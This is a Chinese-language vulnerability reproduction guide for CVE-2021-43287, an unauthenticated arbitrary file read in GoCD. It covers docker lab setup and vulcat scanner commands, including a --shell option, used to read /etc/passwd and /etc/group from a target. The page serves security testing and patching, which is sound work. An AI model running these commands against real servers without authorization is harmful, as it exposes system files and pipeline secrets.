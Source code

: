 # 🧡 GoCD Business Continuity 任意文件读取

### 1）漏洞信息

|漏洞名称	|受影响组件	|漏洞类型	|漏洞编号	|
|--	|--	|--	|--	|
|GoCD Business Continuity任意文件读取	|[GoCD](https://github.com/gocd/gocd)	|任意文件读取	|CVE-2021-43287	|

|漏洞简介	|
|--	|
|<p>​GoCD Business Continuity 存在任意文件读取漏洞，未经身份验证的攻击者可以利用该漏洞来接管 CI/CD 管道，最终可在未授权的情况下造成任意文件读取，获取敏感API密钥等信息。</p><p>影响版本：</p>20.6.0 <= GoCD <= 21.2.0	|

|参考链接	|
|--	|
|<ol><li><a href="https://avd.aliyun.com/detail?id=AVD-2021-43287">https://avd.aliyun.com/detail?id=AVD-2021-43287</a></li><li><a href="http://wiki.peiqi.tech/wiki/webserver/GoCD/GoCD%20plugin%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%20CVE-2021-43287.html">http://wiki.peiqi.tech/wiki/webserver/GoCD/GoCD%20plugin%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%20CVE-2021-43287.html</a></li></ol>	|

|补丁及修复方案	|
|--	|
|升级该组件至最新版本：<ol><li><a href="https://github.com/gocd/gocd">https://github.com/gocd/gocd</a></li><li><a href="https://www.gocd.org/">https://www.gocd.org/</a></li></ol>	|

### 漏洞环境

#### 方案一
使用[官方镜像](https://hub.docker.com/layers/gocd/gocd-server/v21.1.0/images/sha256-7d68a41ac2656d1ccf3e8426df7be0df7b92b4a5e49d28486642200fc6604c86?context=explore)搭建漏洞环境

```
docker pull gocd/gocd-server:v21.1.0
docker run -itd -p 8153:8153 gocd/gocd-server:v21.1.0
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/01.png" alt=""><figcaption></figcaption></figure>

启动容器后，访问8153端口即可看到gocd的页面
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/02.png" alt=""><figcaption></figcaption></figure>


#### 方案二
使用[vulfocus镜像](https://github.com/fofapro/vulfocus)搭建漏洞环境

```
docker pull vulfocus/gocd-cve_2021_43287
docker run -itd -p 8153:8153 vulfocus/gocd-cve_2021_43287
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/07.png" alt=""><figcaption></figcaption></figure>

启动容器后，如果看到以下页面，则稍等一会
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/08.png" alt=""><figcaption></figcaption></figure>

稍等一会之后，即可看到gocd页面
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/10.png" alt=""><figcaption></figcaption></figure>


### 漏洞复现

```
python3 vulcat.py -u <URL> -a gocd -v cve-2021-43287

# 注意, vulcat-v2.0.0版本及以上, 应使用以下命令
python3 vulcat.py -u <URL> -v cve-2021-43287
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/03.png" alt=""><figcaption></figcaption></figure>

直接访问Target即可读取/etc/passwd文件
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/04.png" alt=""><figcaption></figcaption></figure>

你也可以使用Request数据包
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/05.png" alt=""><figcaption></figcaption></figure>

/etc/group
<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/06.png" alt=""><figcaption></figcaption></figure>

#### 支持--shell选项

```
python3 vulcat.py -u <URL> -a gocd -v cve-2021-43287 --shell

# 注意, vulcat-v2.0.0版本及以上, -a选项被移除, 应使用以下命令
python3 vulcat.py -u <URL> -v cve-2021-43287 --shell
```

<figure><img src="https://cdn.staticaly.com/gh/clincat/blog-imgs@main/hub/static/imgs/vulns/gocd/cve-2021-43287/12.png" alt=""><figcaption></figcaption></figure>
